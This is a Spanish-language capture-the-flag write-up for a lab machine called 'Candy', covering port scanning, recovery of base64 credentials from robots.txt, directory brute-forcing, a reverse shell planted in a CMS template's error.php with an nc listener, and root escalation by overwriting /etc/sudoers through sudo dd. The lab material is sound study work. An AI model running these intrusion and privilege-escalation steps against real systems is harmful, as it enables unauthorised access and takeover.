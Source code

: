 ```yaml
---
description: '✍️ Autor: Luisillo_o🔍 Dificultad: Fácil  📅 Fecha de creación: 29/08/2024'
---
```


# Candy

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 172.17.0.2
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (14) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 172.17.0.2
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (793).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 80** perteneciente al **servicio HTTP** está abierto por lo que a continuación se indagará más.

### 🔎 EXPLORACIÓN

Se utiliza el comando:

```bash
sudo nmap -sCV -p80 -v 172.17.0.2
```

para que nos proporcione más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (794).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora indagamos sobre el **servicio HTTP**. Se ingresó la **dirección IP** en el navegador lo que llevó a que la página web llamada Cassiopeia.

<figure><img src="../../.gitbook/assets/image (795).png" alt=""><figcaption></figcaption></figure>

Como nos pide unas credenciales vamos a revisar el archivo `robots.txt` por si contiene algo relevante.

<figure><img src="../../.gitbook/assets/image (796).png" alt=""><figcaption></figcaption></figure>

Vemos unas credenciales pero la contraseña parece ser que está codificada en **base64**.

```bash
echo "c2FubHVpczEyMzQ1" | base64 -d
```

<figure><img src="../../.gitbook/assets/image (797).png" alt=""><figcaption></figcaption></figure>

Nos logueamos y estamos dentro.

<figure><img src="../../.gitbook/assets/image (798).png" alt=""><figcaption></figcaption></figure>

Ahora buscaremos directorios y archivos con la herramienta **Gobuster** a través de:

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,php,txt,xml
```

<figure><img src="../../.gitbook/assets/image (806).png" alt=""><figcaption></figcaption></figure>

Nos encontramos un directorio llamado `/administrator` y entramos en él y nos pide unas credenciales que hemos encontrado anteriormente.

<figure><img src="../../.gitbook/assets/image (799).png" alt=""><figcaption></figcaption></figure>

Nos logueamos y estamos dentro.

<figure><img src="../../.gitbook/assets/image (800).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Vamos a **System** en concreto **Sites Templates** y editamos el archivo `error.php` para hacer una [**Reverse Shell**](https://www.revshells.com/). Nos ponemos en escucha.

```bash
nc -lvnp 443
```

<figure><img src="../../.gitbook/assets/image (801).png" alt=""><figcaption></figcaption></figure>

Hacemos el [tratamiento de la TTY](https://invertebr4do.github.io/tratamiento-de-tty/) para trabajar más cómodos.

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar. No tenemos permisos SUDO.

```bash
find / -user luisillo 2>/dev/null
```

<figure><img src="../../.gitbook/assets/image (802).png" alt=""><figcaption></figcaption></figure>

Mostramos el contenido de ese archivo.

```bash
cat /var/backups/hidden/otro_caramelo.txt
```

<figure><img src="../../.gitbook/assets/image (803).png" alt=""><figcaption></figcaption></figure>

Parecen unas credenciales por lo que intentamos loguearnos.

<figure><img src="../../.gitbook/assets/image (804).png" alt=""><figcaption></figcaption></figure>

Tenemos permisos SUDO con dd por lo que revisamos esta [página](https://gtfobins.github.io/gtfobins/dd/).

```bash
echo "luisillo ALL=(ALL:ALL) ALL" | sudo /bin/dd of=/etc/sudoers
```

<figure><img src="../../.gitbook/assets/image (805).png" alt=""><figcaption></figcaption></figure>
